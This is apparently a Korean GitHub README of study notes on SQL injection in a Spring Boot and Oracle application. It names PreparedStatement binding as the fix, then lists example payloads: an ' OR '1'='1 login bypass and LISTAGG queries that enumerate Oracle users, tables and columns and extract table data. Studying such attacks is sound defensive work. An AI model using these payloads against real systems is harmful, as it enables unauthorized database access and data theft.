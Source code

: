# SQLInjection
### 특징 : 발생 원인은 쿼리 바인딩이 제대로 이루어 지지 않은 경우 이며, 조치 또한 쿼리 바인딩(PreparedStatement) 처리  
- ### Query Binding 예시(iBatis 또한 인젝션 가능한 바인딩의 경우는 동일)
  ![쿼리 바인딩](https://github.com/user-attachments/assets/6858c910-dffd-4d90-841d-929087c04735)  
- ### SQL Injection 구문 예시 (스프링 부트 + 오라클) 
  - #### 1. 간략 로그인 : ' OR '1'='1
      ![로그인](https://github.com/user-attachments/assets/7e6a73d8-094f-4a04-be11-3d1fc91bb25c)   
  - #### 2. 오라클 계정 리스트 : SELECT LISTAGG(table_name || ' - ' || tablespace_name), NULL(생략) FROM all_users--
      ![아이디](https://github.com/user-attachments/assets/65685703-9f77-48b8-b208-11b1a6f7a391)
  - #### 3. 오라클 계정 테이블 리스트 : SELECT LISTAGG(table_name || ' - ' || tablespace_name), NULL(생략) FROM user_tables--  
      ![유저테이블](https://github.com/user-attachments/assets/f4b2c3de-cb35-4dc9-babb-cfc2932e62c4)
  - #### 4. 오라클 특정 테이블 컬럼 상세 정보 / 위의 탈취한 테이블로 컬럼 값 추출
      #### SELECT LISTAGG(column_name || ' - ' || data_type || ' - ' || data_length, ', ') WITHIN GROUP (ORDER BY column_id) AS combined_columns, NULL(생략) FROM user_tab_columns where table_name='BOOKCASE3'--  
      ![컬럼 정보](https://github.com/user-attachments/assets/49c4d45d-6b56-40cc-983d-10d1ed82b08a)
  - #### 5. 오라클 특정 테이블 원하는 정보 추출 / 위의 탈취한 테이블의 컬럼 값 으로 원하는 정보 추출
      #### SELECT LISTAGG(title || ' - ' || writer || ' - ' || publisher), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL from BOOKCASE3--  
      ![전체추출](https://github.com/user-attachments/assets/757a3055-56a4-4ce0-af65-aa417f99b21e)  
### 공부 시 추가 할 예정...

